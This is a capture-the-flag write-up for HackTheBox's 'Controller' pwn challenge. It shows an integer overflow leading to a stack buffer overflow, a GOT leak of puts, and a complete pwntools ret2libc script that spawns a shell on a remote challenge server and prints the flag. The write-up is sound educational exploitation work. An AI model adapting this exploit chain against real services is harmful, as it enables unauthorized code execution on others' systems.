

# CTF HackTheBox 2021 Cyber Apocalypse 2021 - Controller

Category: Pwn, Points: 300




Attached file [pwn_controller.zip](pwn_controller.zip)

# Controller Solution

Let's check the binary using ```checksec```:
```
┌─[evyatar@parrot]─[/ctf_htb/cyber_apocalypse/pwn/controller]
└──╼ $ checksec controller
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)

```

[Full RELRO](https://ctf101.org/binary-exploitation/relocation-read-only/) (removes the ability to perform a "GOT overwrite" attack), No canary and no PIE.

By running the binary we get:
```console
┌─[evyatar@parrot]─[/ctf_htb/cyber_apocalypse/pwn/controller]
└──╼ $ ./controller
👾 Control Room 👾

Insert the amount of 2 different types of recources: 2 3
Choose operation:

1. ➕

2. ➖

3. ❌

4. ➗

> 1
2 + 3 = 5
Insert the amount of 2 different types of recources:
```

The binary type of calculator.

By observe the main function using [Ghidra](https://ghidra-sre.org/) we can see call for ```calculator``` function:
```c
void calculator(void)

{
  char local_28 [28];
  uint local_c;
  
  local_c = calc();
  if (local_c == 0xff3a) {
    printstr("Something odd happened!\nDo you want to report the problem?\n> ");
    __isoc99_scanf(&DAT_004013e6,local_28);
    if ((local_28[0] == 'y') || (local_28[0] == 'Y')) {
      printstr("Problem reported!\n");
    }
    else {
      printstr("Problem ingored\n");
    }
  }
  else {
    calculator();
  }
  return;
}
```

We can see ```__isoc99_scanf(&DAT_004013e6,local_28);``` which is ```scanf("%s",local_28)``` It's basically ```gets``` since the %s is unbounded.

If we can get return value ```0xff3a (65338)``` from ```calc()``` function we can get buffer overflow with ```local_28``` char array to leak libc and get a shell.

Let's observe ```calc()``` function to understand how to make it to return 0xff3a:
```c
uint calc(void)
{
  float fVar1;
  uint local_18;
  uint local_14;
  int local_10;
  uint local_c;
  
  printstr("Insert the amount of 2 different types of recources: ");
  __isoc99_scanf("%d %d",&local_14,&local_18);
  local_10 = menu();
  if ((0x45 < (int)local_14) || (0x45 < (int)local_18)) {
    printstr("We cannot use these many resources at once!\n");
                    /* WARNING: Subroutine does not return */
    exit(0x69);
  }
  if (local_10 == 2) {
    local_c = sub(local_14,local_18);
    printf("%d - %d = %d\n",(ulong)local_14,(ulong)local_18,(ulong)local_c);
    return local_c;
  }
  if (local_10 < 3) {
    if (local_10 == 1) {
      local_c = add(local_14,local_18);
      printf("%d + %d = %d\n",(ulong)local_14,(ulong)local_18,(ulong)local_c);
      return local_c;
    }
  }
  else {
    if (local_10 == 3) {
      local_c = mult(local_14,local_18);
      local_c = local_c & 0xffff;
      printf("%d * %d = %d\n",(ulong)local_14,(ulong)local_18,(ulong)local_c);
      return local_c;
    }
    if (local_10 == 4) {
      fVar1 = divi(local_14,local_18);
      local_c = (uint)(long)fVar1;
      printf("%d / %d = %d\n",(ulong)local_14,(ulong)local_18,(long)fVar1 & 0xffffffff);
      return local_c;
    }
  }
  printstr("Invalid operation, exiting..\n");
  return local_c;
}
```

So we can see the inputs ```__isoc99_scanf("%d %d",&local_14,&local_18);``` and both ```local_14```, ```local_18``` are ```unsigned long```.

By looking on the following code from ```calculator``` function:
```c
...
if (local_10 == 3) {
  local_c = mult(local_14,local_18);
  local_c = local_c & 0xffff;
  printf("%d * %d = %d\n",(ulong)local_14,(ulong)local_18,(ulong)local_c);
  return local_c;
}
```

Where ```mult``` is:
```c
int mult(int param_1,int param_2)
{
  return param_1 * param_2;
}
```

We need to make the function to return ```0xff3a (65338)```.

So it's mean if we set ```local_14=-1``` and ```local_18=-65338``` (interger overflow) they will send to ```mult``` function (inside ```mult``` function they are int to they get the correct values) then ```local_c = local_c & 0xffff;``` make to get the expected value ```65338```.

Let's try it:
```console
┌─[evyatar@parrot]─[/ctf_htb/cyber_apocalypse/pwn/controller]
└──╼ $ ./controller
./controller 

👾 Control Room 👾

Insert the amount of 2 different types of recources: -1 -65338
Choose operation:

1. ➕

2. ➖

3. ❌

4. ➗

> 3
-1 * -65338 = 65338
Something odd happened!
Do you want to report the problem?
> > aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
Problem ingored
Segmentation fault

```

Great, now we can get buffer overflow.

We need to find the offset between ```char local_28 [28];``` buffer to ```rip```, Let's do it using gdb:
```console
┌─[evyatar@parrot]─[/ctf_htb/cyber_apocalypse/pwn/controller]
└──╼ $ gdb controller
gef➤  disassemble calculator
Dump of assembler code for function calculator:
   0x0000000000401066 <+0>:	push   rbp
   0x0000000000401067 <+1>:	mov    rbp,rsp
   0x000000000040106a <+4>:	sub    rsp,0x20
   0x000000000040106e <+8>:	call   0x400f01 <calc>
   0x0000000000401073 <+13>:	mov    DWORD PTR [rbp-0x4],eax
   0x0000000000401076 <+16>:	cmp    DWORD PTR [rbp-0x4],0xff3a
   0x000000000040107d <+23>:	jne    0x4010f1 <calculator+139>
   0x000000000040107f <+25>:	lea    rdi,[rip+0x322]        # 0x4013a8
   0x0000000000401086 <+32>:	call   0x400dcd <printstr>
   0x000000000040108b <+37>:	lea    rax,[rbp-0x20]
   0x000000000040108f <+41>:	mov    rsi,rax
   0x0000000000401092 <+44>:	lea    rdi,[rip+0x34d]        # 0x4013e6
   0x0000000000401099 <+51>:	mov    eax,0x0
   0x000000000040109e <+56>:	call   0x400680 <__isoc99_scanf@plt>
   0x00000000004010a3 <+61>:	movzx  edx,BYTE PTR [rbp-0x20]
   0x00000000004010a7 <+65>:	movzx  eax,BYTE PTR [rip+0x33b]        # 0x4013e9
   0x00000000004010ae <+72>:	movzx  edx,dl
   0x00000000004010b1 <+75>:	movzx  eax,al
   0x00000000004010b4 <+78>:	sub    edx,eax
   0x00000000004010b6 <+80>:	mov    eax,edx
   0x00000000004010b8 <+82>:	test   eax,eax
   0x00000000004010ba <+84>:	je     0x4010d5 <calculator+111>
   0x00000000004010bc <+86>:	movzx  edx,BYTE PTR [rbp-0x20]
   0x00000000004010c0 <+90>:	movzx  eax,BYTE PTR [rip+0x324]        # 0x4013eb
   0x00000000004010c7 <+97>:	movzx  edx,dl
   0x00000000004010ca <+100>:	movzx  eax,al
   0x00000000004010cd <+103>:	sub    edx,eax
   0x00000000004010cf <+105>:	mov    eax,edx
   0x00000000004010d1 <+107>:	test   eax,eax
   0x00000000004010d3 <+109>:	jne    0x4010e3 <calculator+125>
   0x00000000004010d5 <+111>:	lea    rdi,[rip+0x311]        # 0x4013ed
   0x00000000004010dc <+118>:	call   0x400dcd <printstr>
   0x00000000004010e1 <+123>:	jmp    0x4010fb <calculator+149>
   0x00000000004010e3 <+125>:	lea    rdi,[rip+0x316]        # 0x401400
   0x00000000004010ea <+132>:	call   0x400dcd <printstr>
   0x00000000004010ef <+137>:	jmp    0x4010fb <calculator+149>
   0x00000000004010f1 <+139>:	mov    eax,0x0
   0x00000000004010f6 <+144>:	call   0x401066 <calculator>
   0x00000000004010fb <+149>:	nop
   0x00000000004010fc <+150>:	leave  
   0x00000000004010fd <+151>:	ret    
End of assembler dump.

```

Let's add breakpoint on ```0x00000000004010d3 <+109>:	jne    0x4010e3 <calculator+125>``` by:
```console
gef➤  b *0x00000000004010d3
gef➤  r
gef➤  r
Starting program: /home/user/Downloads/cont/controller 

👾 Control Room 👾

Insert the amount of 2 different types of recources: -1 -65338             
Choose operation:

1. ➕

2. ➖

3. ❌

4. ➗

> 3
-1 * -65338 = 65338
Something odd happened!
Do you want to report the problem?
> AAAAAAAA

Breakpoint 2, 0x00000000004010d3 in calculator ()

[ Legend: Modified register | Code | Heap | Stack | String ]
───────────────────────────────────────────────────────────────── registers ────
$rax   : 0xffffffe8        
$rbx   : 0x0               
$rcx   : 0x0               
$rdx   : 0xffffffe8        
$rsp   : 0x00007fffffffdea0  →  "AAAAAAAA"
$rbp   : 0x00007fffffffdec0  →  0x00007fffffffdee0  →  0x0000000000401170  →  <__libc_csu_init+0> push r15
$rsi   : 0xa               
$rdi   : 0x00007fffffffd960  →  0x00007ffff7dfb2a0  →  0x6c5f755f72647800
$rip   : 0x00000000004010d3  →  <calculator+109> jne 0x4010e3 <calculator+125>
$r8    : 0x0               
$r9    : 0xffffffffffffff80
$r10   : 0x00007ffff7f583c0  →  0x0002000200020002
$r11   : 0x246             
$r12   : 0x00000000004006b0  →  <_start+0> xor ebp, ebp
$r13   : 0x0               
$r14   : 0x0               
$r15   : 0x0               
$eflags: [zero carry PARITY adjust SIGN trap INTERRUPT direction overflow resume virtualx86 identification]
$cs: 0x0033 $ss: 0x002b $ds: 0x0000 $es: 0x0000 $fs: 0x0000 $gs: 0x0000 
───────────────────────────────────────────────────────────────────── stack ────
0x00007fffffffdea0│+0x0000: "AAAAAAAA"	 ← $rsp
0x00007fffffffdea8│+0x0008: 0x00007fffffffde00  →  0x0000000000000020
0x00007fffffffdeb0│+0x0010: 0x00007fffffffdec0  →  0x00007fffffffdee0  →  0x0000000000401170  →  <__libc_csu_init+0> push r15
0x00007fffffffdeb8│+0x0018: 0x0000ff3a00401121
0x00007fffffffdec0│+0x0020: 0x00007fffffffdee0  →  0x0000000000401170  →  <__libc_csu_init+0> push r15	 ← $rbp
0x00007fffffffdec8│+0x0028: 0x0000000000401160  →  <main+60> mov eax, 0x0
0x00007fffffffded0│+0x0030: 0x00007fffffffdfd8  →  0x00007fffffffe2fc 
0x00007fffffffded8│+0x0038: 0x0000000100000000
─────────────────────────────────────────────────────────────── code:x86:64 ────
     0x4010cc <calculator+102> shr    BYTE PTR [rcx], 0xc2
     0x4010cf <calculator+105> mov    eax, edx
     0x4010d1 <calculator+107> test   eax, eax
 →   0x4010d3 <calculator+109> jne    0x4010e3 <calculator+125>	TAKEN [Reason: !Z]
   ↳    0x4010e3 <calculator+125> lea    rdi, [rip+0x316]        # 0x401400
        0x4010ea <calculator+132> call   0x400dcd <printstr>
        0x4010ef <calculator+137> jmp    0x4010fb <calculator+149>
        0x4010f1 <calculator+139> mov    eax, 0x0
        0x4010f6 <calculator+144> call   0x401066 <calculator>
        0x4010fb <calculator+149> nop    
─────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "controller", stopped 0x4010d3 in calculator (), reason: BREAKPOINT
───────────────────────────────────────────────────────────────────── trace ────
[#0] 0x4010d3 → calculator()
[#1] 0x401160 → main()
────────────────────────────────────────────────────────────────────────────────
gef➤ 
```

So our breakpoint hit, Now, We need to find the offset between our input ```AAAAAAAA``` to ```rip``` register:
```console
gef➤  search-pattern AAAAAAAA
[+] Searching 'AAAAAAAA' in memory
[+] In '[heap]'(0x603000-0x624000), permission=rw-
  0x6032a0 - 0x6032ac  →   "AAAAAAAA\n\n" 
[+] In '[stack]'(0x7ffffffde000-0x7ffffffff000), permission=rw-
  0x7fffffffdea0 - 0x7fffffffdea8  →   "AAAAAAAA" 
gef➤  i f
Stack level 0, frame at 0x7fffffffded0:
 rip = 0x4010d3 in calculator; saved rip = 0x401160
 called by frame at 0x7fffffffdef0
 Arglist at 0x7fffffffdec0, args: 
 Locals at 0x7fffffffdec0, Previous frame's sp is 0x7fffffffded0
 Saved registers:
  rbp at 0x7fffffffdec0, rip at 0x7fffffffdec8

```

rip at ```0x7fffffffdec8``` and our buffer input on ```0x7fffffffdea0``` the offset ```0x7fffffffdec8-0x7fffffffdea0=0x28``` It's mean we need to insert 28 bytes (because ```char local_28 [28];```) and 12 bytes (40-28) padding to overwrite rip:

```
| buffer 28 bytes - local_28[28] | ..padding 12 bytes... | rip
```

From this point it’s a pretty standard ret2libc attack.

Since ASLR will most likely be enabled on the target system, we need to leak a libc address first.

Steps:
1. Get bufferoverflow then leak an address from ```libc``` (address of ```puts```), We can leak the address from [GOT](https://en.wikipedia.org/wiki/Global_Offset_Table).
2. Calculate the offset between ```puts``` leak address to libc ```puts``` address.
3. Standard ret2libc attack (call ```system``` with ```/bin/sh```).

Step 1, Send two inputs to get bufferoverflow:
```python
from pwn import *

binary = context.binary = ELF('./controller')

if args.REMOTE:
	libc = ELF('./libc.so.6')
    p = remote('188.166.172.13',30231)
else:
	# When we running locally use this libc, in remote we will use the attached libc
	libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
    p = process(binary.path)

def get_bof():
        #Multipile two resources to get buffer overflow
		resources_input='-1 -65338'
        print(p.recvuntil(':').decode('utf-8'))
        print(resources_input)
        p.sendline(resources_input)
        print(p.recvuntil('>').decode('utf-8'))
        print('3')
        p.sendline('3')
        print(p.recvuntil('>').decode('utf-8'))

#Multipile two resources to get buffer overflow again
get_bof()
```

Next, We need to find the offset between binary ```puts``` address to attached ``libc``` address:

```python
#leak puts address - Reading to puts with address of puts from got then call to calculator again
pop_rdi = next(binary.search(asm('pop rdi; ret'))) #pop rdi gadget

libc_leak_payload  = 0x28 * b'A' # buffer 28 bytes + padding
libc_leak_payload += p64(pop_rdi)
libc_leak_payload += p64(binary.got.puts)
libc_leak_payload += p64(binary.plt.puts)
libc_leak_payload += p64(binary.sym.calculator)

p.sendline(libc_leak_payload)
print(p.recvuntil('ingored\n').decode('utf-8'))

#recv bytes of puts address from binary, then calculate the offset from binary puts address to libc puts address - leak
data_bytes = p.recv(6)
puts = u64(data_bytes + b'\0\0')
log.info('puts locate on: ' + hex(puts))
libc.address = puts - libc.sym.puts
log.info('puts libc.address: ' + hex(libc.address))
```

Great, Now we have leak address of ```puts```.

Step 2, Let's make again bufferoverflow and use the information we have to call ```system``` with ```/bin/sh```.

At the time we reached the ```system``` call, RSI Register was holding some data that led to an error. Since RSI usually holds the 2nd argument to a function call, we want to clear it out and set it to 0, otherwise the call will fail.

```console
#Multipile two resources to get buffer overflow again
get_bof()

pop_rsi_r15 = next(binary.search(asm('pop rsi ; pop r15 ; ret'))) #pop rsi gadget
bin_sh = libc.search(b"/bin/sh").__next__()
system = libc.sym.system
payload = b'A'*0x28
payload += p64(pop_rsi_r15)
payload += p64(0)
payload += p64(0)
payload += p64(pop_rdi)
payload += p64(bin_sh)
payload += p64(system)

p.sendline(payload)
p.interactive()
```

So Let's put everything together in [exploit.py](exploit.py):
```python
from pwn import *

binary = context.binary = ELF('./controller')

if args.REMOTE:
        libc = ELF('./libc.so.6')
        p = remote('188.166.172.13',30231)
else:
	# When we running locally use this libc, in remote we will use the attached libc
        libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
        p = process(binary.path)

def get_bof():
        #Multipile two resources to get buffer overflow
        resources_input='-1 -65338'
        print(p.recvuntil(':').decode('utf-8'))
        print(resources_input)
        p.sendline(resources_input)
        print(p.recvuntil('>').decode('utf-8'))
        print('3')
        p.sendline('3')
        print(p.recvuntil('>').decode('utf-8'))

#Multipile two resources to get buffer overflow again
get_bof()
#leak puts address - Reading to puts with address of puts from got then call to calculator again
pop_rdi = next(binary.search(asm('pop rdi; ret'))) #pop rdi gadget

libc_leak_payload  = 0x28 * b'A' # buffer 28 bytes + padding
libc_leak_payload += p64(pop_rdi)
libc_leak_payload += p64(binary.got.puts)
libc_leak_payload += p64(binary.plt.puts)
libc_leak_payload += p64(binary.sym.calculator)

p.sendline(libc_leak_payload)
print(p.recvuntil('ingored\n').decode('utf-8'))

#recv bytes of puts address from binary, then calculate the offset from binary puts address to libc puts address - leak
data_bytes = p.recv(6)
puts = u64(data_bytes + b'\0\0')
log.info('puts locate on: ' + hex(puts))
libc.address = puts - libc.sym.puts
log.info('puts libc.address: ' + hex(libc.address))


#Multipile two resources to get buffer overflow again
get_bof()

pop_rsi_r15 = next(binary.search(asm('pop rsi ; pop r15 ; ret'))) #pop rsi gadget
bin_sh = libc.search(b"/bin/sh").__next__()
system = libc.sym.system
payload = b'A'*0x28
payload += p64(pop_rsi_r15)
payload += p64(0)
payload += p64(0)
payload += p64(pop_rdi)
payload += p64(bin_sh)
payload += p64(system)

p.sendline(payload)
p.interactive()
```

Let's run it locally:
```console
┌─[evyatar@parrot]─[/ctf_htb/cyber_apocalypse/pwn/controller]
└──╼ $ python3 exploit.py 
[*] '/ctf_htb/cyber_apocalypse/pwn/controllercontroller'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[*] '/lib/x86_64-linux-gnu/libc.so.6'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Starting local process '/ctf_htb/cyber_apocalypse/pwn/controllercontroller': pid 16379

👾 Control Room 👾

Insert the amount of 2 different types of recources:
-1 -65338
 Choose operation:

1. ➕

2. ➖

3. ❌

4. ➗

>
3
 -1 * -65338 = 65338
Something odd happened!
Do you want to report the problem?
>
 Problem ingored

[*] puts locate on: 0x7fdd3f38caa0
[*] puts libc.address: 0x7fdd3f30c000

Insert the amount of 2 different types of recources:
-1 -65338
 Choose operation:

1. ➕

2. ➖

3. ❌

4. ➗

>
3
 -1 * -65338 = 65338
Something odd happened!
Do you want to report the problem?
>
[*] Switching to interactive mode
 Problem ingored
$ ls
controller  exploit.py    libc.so.6
```

Great, we pop a shell.

Let's run it with argument ```REMOTE=1``` to get the flag:
```console
┌─[evyatar@parrot]─[/ctf_htb/cyber_apocalypse/pwn/controller]
└──╼ $ python3 exploit.py REMOTE=1 
[*] '/ctf_htb/cyber_apocalypse/pwn/controllercontroller'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[*] '/lib/x86_64-linux-gnu/libc.so.6'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Starting local process '/ctf_htb/cyber_apocalypse/pwn/controllercontroller': pid 16379

👾 Control Room 👾

Insert the amount of 2 different types of recources:
-1 -65338
 Choose operation:

1. ➕

2. ➖

3. ❌

4. ➗

>
3
 -1 * -65338 = 65338
Something odd happened!
Do you want to report the problem?
>
 Problem ingored

[*] puts locate on: 0x7fb46fa22aa0
[*] puts libc.address: 0x7fb46f9a2000

Insert the amount of 2 different types of recources:
-1 -65338
 Choose operation:

1. ➕

2. ➖

3. ❌

4. ➗

>
3
 -1 * -65338 = 65338
Something odd happened!
Do you want to report the problem?
>
[*] Switching to interactive mode
 Problem ingored
$ cat flag.txt
CHTB{1nt3g3r_0v3rfl0w_s4v3d_0ur_r3s0urc3s} 
```

And we get the flag ```CHTB{1nt3g3r_0v3rfl0w_s4v3d_0ur_r3s0urc3s}```.